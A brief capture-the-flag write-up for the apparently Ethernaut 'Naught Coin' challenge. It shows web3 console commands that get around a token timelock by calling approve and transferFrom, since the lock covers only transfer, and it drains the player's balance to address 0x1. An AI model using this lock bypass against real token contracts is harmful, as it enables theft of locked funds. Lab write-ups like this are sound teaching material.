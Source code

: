 # Naught Coin solution

1. Check current player balance  
`web3.fromWei(await contract.balanceOf(player))`  
"1000000"  

2. The contract puts locks only on the `transfer` method, but ignores the `approve` and `transferFrom` methods. Let's approve the player to transfer the funds.
`await contract.approve(player, web3.toWei(1000000))`  

3. Now we can use `transferFrom` to transfer funds to some address.
`await contract.transferFrom(player, 0x1, web3.toWei(1000000))`

4. Check player's current balance
`web3.fromWei(await contract.balanceOf(player))`  
"0"  

5. Submit instance 🎉   
